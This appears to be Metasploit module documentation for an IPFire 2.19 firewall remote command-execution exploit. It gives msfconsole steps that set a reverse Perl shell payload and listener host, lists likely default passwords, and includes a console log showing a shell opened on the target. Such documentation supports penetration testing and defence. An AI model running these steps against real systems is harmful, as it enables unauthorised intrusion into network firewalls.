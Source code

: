 ## Vulnerable Application

  Official Source: [ipfire](http://downloads.ipfire.org/releases/ipfire-2.x/2.19-core110/ipfire-2.19.x86_64-full-core110.iso)

This module has been verified against:

1. 2.19 core 100
2. 2.19 core 110 (exploit-db, not metasploit module)

## Verification Steps

  1. Install the firewall
  2. Start msfconsole
  3. Do: ```use exploit/linux/http/ipfire_oinkcode_exec```
  4. Do: ```set password admin``` or whatever it was set to at install
  5. Do: ```set rhost 10.10.10.10```
  6. Do: ```set payload cmd/unix/reverse_perl```
  7. Do: ```set lhost 192.168.2.229```
  8. Do: ```exploit```
  9. You should get a shell.

## Options

  **PASSWORD**

  Password is set at install.  May be blank, 'admin', or 'ipfire'.

## Scenarios

  ```
    msf > use exploit/linux/http/ipfire_oinkcode_exec 
    msf exploit(ipfire_oinkcode_exec) > set password admin
    password => admin
    msf exploit(ipfire_oinkcode_exec) > set rhost 192.168.2.201
    rhost => 192.168.2.201
    msf exploit(ipfire_oinkcode_exec) > set verbose true
    verbose => true
    msf exploit(ipfire_oinkcode_exec) > check
    [*] 192.168.2.201:444 The target appears to be vulnerable.
    msf exploit(ipfire_oinkcode_exec) > exploit
    
    [*] Started reverse TCP handler on 192.168.2.117:4444 
    [*] Command shell session 1 opened (192.168.2.117:4444 -> 192.168.2.201:38412) at 2017-06-14 21:12:21 -0400
    id
    uid=99(nobody) gid=99(nobody) groups=99(nobody),16(dialout),23(squid)
    whoami
    nobody
  ```